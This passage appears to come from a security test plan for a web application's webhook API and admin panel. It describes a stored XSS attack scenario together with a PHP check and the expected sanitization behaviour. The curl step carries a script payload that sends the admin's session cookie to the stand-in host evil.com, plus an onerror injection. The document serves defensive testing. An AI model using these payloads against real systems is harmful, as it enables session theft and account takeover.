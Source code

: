 **Risk Level**: 🟡 **HIGH**
**CVSS Score**: 6.5 (Medium)
**Impact**: Denial of service, resource exhaustion, system downtime

---

### 3. Input Validation & XSS Attacks

#### Attack Scenario 3.1: Stored XSS via Webhook Payload

**Objective**: Inject malicious JavaScript via webhook that executes when admin views data

**Attack Steps**:
```bash
# 1. Send webhook with XSS payload in customer data
curl -X POST https://api.askproai.de/api/webhooks/retell/function-call \
  -H "Content-Type: application/json" \
  -d '{
    "function_name": "book_appointment",
    "call_id": "xss_attack_123",
    "parameters": {
      "customer": {
        "name": "<script>fetch(\"https://evil.com/steal?cookie=\"+document.cookie)</script>",
        "email": "victim@test.com",
        "notes": "<img src=x onerror=\"alert(document.domain)\">"
      },
      "service_id": 1,
      "date": "2025-10-15",
      "time": "14:00"
    }
  }'

# 2. Admin logs into Filament panel
# 3. Admin views appointments list or appointment detail
# 4. If vulnerable, JavaScript executes in admin's browser
#    - Steals session cookie
#    - Performs actions as admin
#    - Exfiltrates sensitive data
```

**Expected Secure Behavior**:
- XSS payload sanitized before storage (Observer)
- Script tags stripped: `&lt;script&gt;...&lt;/script&gt;`
- Event handlers removed: `<img src=x>` (no onerror)
- No JavaScript execution in admin panel

**Vulnerability Indicators**:
- ❌ JavaScript alert box appears when viewing appointment
- ❌ Network request to evil.com observed
- ❌ Raw script tags visible in database
- ❌ Session cookie stolen

**Validation Test**:
```php
// After attack, check database
$appointment = Appointment::where('customer_name', 'LIKE', '%script%')->first();
if ($appointment && strpos($appointment->customer_name, '<script>') !== false) {
    echo "VULNERABILITY: XSS payload stored unsanitized!";
}

// Expected: customer_name should be sanitized
// Secure result: "fetch(\"https://evil.com/..." (tags stripped)
```
